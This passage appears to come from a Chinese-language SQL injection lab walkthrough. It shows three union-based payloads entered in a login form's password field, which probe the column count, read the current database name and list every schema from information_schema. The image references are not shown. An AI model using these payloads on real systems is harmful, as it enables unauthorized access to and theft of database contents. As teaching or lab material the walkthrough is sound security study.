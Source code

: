 ```
passwd=' union select 1,2#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183132284.png" alt="image-20230606183132284" style="zoom:50%;" />

#### 查看当前数据库

```
passwd=' union select 1,database()#&Submit=Submit&uname=admin
```

![image-20230606183211789](%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183211789.png)

#### 爆库

```
passwd=' union select 1,group_concat(schema_name) from information_schema.schemata#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183320150.png" alt="image-20230606183320150" style="zoom:50%;" />
